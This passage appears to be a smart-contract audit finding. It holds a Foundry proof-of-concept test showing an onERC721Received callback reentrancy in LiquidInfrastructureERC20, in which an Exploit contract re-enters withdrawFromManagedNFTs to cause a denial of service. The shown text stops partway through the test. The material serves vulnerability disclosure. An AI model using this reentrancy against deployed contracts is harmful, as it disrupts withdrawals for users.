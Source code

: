 Coded POC for `onERC721Received` callback reentrancy case:

```solidity
import {LiquidInfrastructureERC20, ERC20} from "../contracts/LiquidInfrastructureERC20.sol";
import {LiquidInfrastructureNFT} from "../contracts/LiquidInfrastructureNFT.sol";
import {Test} from "forge-std/Test.sol";
import "forge-std/console.sol";

contract Exploit {
    LiquidInfrastructureERC20 target;
    constructor(LiquidInfrastructureERC20 _target) {
        target = _target;
    }
    function onERC721Received(address, address, uint256, bytes memory) public virtual returns (bytes4) {
        // set counter
        target.withdrawFromManagedNFTs(2);
        return this.onERC721Received.selector;
    }
}

contract MockToken is ERC20 {
    constructor(string memory name, string memory symbol) ERC20(name, symbol) {}
    function mint(address to, uint256 amount) external {
        _mint(to, amount);
    }
}

contract C4 is Test {
    LiquidInfrastructureERC20 liqERC20;
    MockToken usdc;
    address alice;
    address bob;
    function setUp() public {
        alice = address(0xa11cE);
        bob = address(0xb0b);
        usdc = new MockToken("USDC", "USDC");
        address[] memory rewards = new address[](1);
        rewards[0] = address(usdc);
        address[] memory approved = new address[](3);
        approved[0] = address(this);
        approved[1] = alice;
        approved[2] = bob;
        address[] memory nfts = new address[](3);
        nfts[0] = address(new LiquidInfrastructureNFT("NAME"));
        nfts[1] = address(new LiquidInfrastructureNFT("NAME"));
        nfts[2] = address(new LiquidInfrastructureNFT("NAME"));
        liqERC20 = new LiquidInfrastructureERC20("LIQ", "LIQ", nfts, approved, 10, rewards);
        for(uint256 i=0; i<nfts.length; i++) {
            usdc.mint(nfts[i], 1_000_000 * 1e18);
            LiquidInfrastructureNFT(nfts[i]).setThresholds(rewards, new uint256[](1));
            LiquidInfrastructureNFT(nfts[i]).transferFrom(address(this), address(liqERC20), 1);
        }
    }

    function testWithdrawDOS() public {
        Exploit exploit = new Exploit(liqERC20);
        address nft = liqERC20.ManagedNFTs(0);
        address toRelease1 = liqERC20.ManagedNFTs(1);
        address toRelease2 = liqERC20.ManagedNFTs(2);

        liqERC20.withdrawFromAllManagedNFTs();
        assertEq(usdc.balanceOf(address(liqERC20)), 3_000_000 * 1e18);
        uint256 balBefore = usdc.balanceOf(address(liqERC20));
```